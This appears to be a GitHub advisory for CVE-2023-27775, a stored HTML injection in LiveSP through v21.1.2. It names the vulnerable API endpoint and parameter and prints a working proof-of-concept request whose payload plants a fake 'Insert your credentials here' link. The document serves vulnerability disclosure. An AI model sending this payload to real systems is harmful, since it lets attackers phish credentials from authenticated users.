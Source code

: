 ### [CVE-2023-27775 - Stored HTML Injection](https://nvd.nist.gov/vuln/detail/CVE-2023-27775)
![](https://img.shields.io/static/v1?label=Product&message=LiveSP%20-%20LiveAction&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%2021.1.2%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-80:%20Improper%20Neutralization%20of%20Script-Related%20HTML%20Tags%20in%20a%20Web%20Page%20(Basic%20XSS)&color=brighgreen)

### Description

An issue was discovered in LiveSP through v.21.1.2. A malicious user leveraging this vulnerability could inject arbitrary HTML code. The malicious payload will then be triggered every time an authenticated user browses the page containing it.

### POC

HTML injection is a type of injection vulnerability that occurs when a user
is able to control an input point and is able to inject arbitrary HTML code
into a vulnerable web page. This vulnerability can have many
consequences. Generally, it can allow the attacker to modify the page
content seen by the victims. The attack takes effect when the victim’s
browser displays the corrupted page.

This vulnerability occurs when user input is not correctly sanitized and
the output is not encoded. An injection allows the attacker to send a
malicious HTML page to a victim. The targeted browser will not be able
to distinguish (trust) legitimate parts from malicious parts of the page,
and consequently will parse and execute the whole page in the victim’s
context.

### Affected Endpoint
- **URL:** https://[ip:port]/va/service/bach/topology/element
- **HTTP Post Parameter:** name

### Technical Details
In this specific instance, using the API available under
*/va/service/bach/topology/element*, it is possible to inject arbitrary
HTML code within the *name* POST parameter, as shown in the
following HTTP Request/Response pair.

**HTTP Request:**

```html
POST /va/service/bach/topology/element HTTP/1.1
Host: [REDACTED]
Cookie: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [REDACTED]
Content-Type: application/json
Content-Length: 178
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"attributes":{"name":"\"><a href=\"http://foo.com\">Insert your credentials here</a>","extraLabel":""},"type":"cluster","keyType":"cluster:area","children":{"cluster:site":[]}}

```

**HTTP Response:**

```html
HTTP/1.1 201 Created
Server: [REDACTED]
Date: Wed, 04 Jan 2023 14:52:08 GMTContent-Type: application/json
Content-Length: 785
Connection: close
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: [...]
Access-Control-Allow-Origin: *
Referrer-Policy: strict-origin

[...]

```

As we note from the HTTP Response above, the exploit was successfully saved. At this point, when the user visits the *https://[hostname:port]/va/cluster* web page, the exploit runs from the victim’s browser.

![html_injection](https://github.com/marcovntr/CVE/blob/main/2023/CVE-2023-27775/poc.png)

#### Reference
- https://nvd.nist.gov/vuln/detail/CVE-2023-27775
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27775
